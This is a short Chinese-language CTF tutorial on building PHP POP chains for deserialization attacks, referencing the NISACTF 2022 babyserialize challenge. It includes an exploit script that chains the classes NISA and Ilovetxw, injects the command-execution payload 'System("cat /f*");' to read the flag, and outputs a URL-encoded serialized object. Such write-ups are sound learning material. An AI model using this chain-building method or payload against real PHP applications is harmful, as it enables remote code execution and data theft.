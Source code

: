 # POP链构造


## 关键步骤：理清pop链&amp;&amp;做标记
**第一步**： 找eval、flag这些危险函数和关键字样（一般这就是链尾）==&gt;看用到的参数
**第二步**： 找该参数所在位置，标注该参数，例如```// 1[序号] shell[上一步找到参数的类]```
**第三步**： 看目前所标记的这个参数所在函数的功能，通过了解功能找到能够触发这个函数的第二个参数。
……
以此类推，当找到链头【即：含有或者是能够结束整个序列化的过程的类】

## 写脚本
先将所有类复制下来放进```&lt;?php ?&gt;```
根据刚才标注的12345顺序来写，**用到哪个类时，必须先用```new```实例化一遍**
例：
对应
```
public $txw4ever; //1 shell【txw4ever所在类为NISA】
public $su; //2 NISA【su所在类为Ilovetxw】
```
```
$n = new NISA();
$n-&gt;txw4ever = &#39;System(&#34;cat /f*&#34;);&#39;;
$i = new Ilovetxw();
$i-&gt;su = $n; //等于的是*标注*里面所对应类的参数
```
*注：每一种类用一个参数即可*

最后加上显示语句：【一般直接反序列化，如果被限制可以用url再加密，如下】
```
echo urlencode(serialize($f));
```

&gt; 参考例题：[[NISACTF 2022]babyserialize](http://8.130.93.84:8090/archives/nisactf2022babyserialize)

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-pop%E9%93%BE%E6%9E%84%E9%80%A0/  

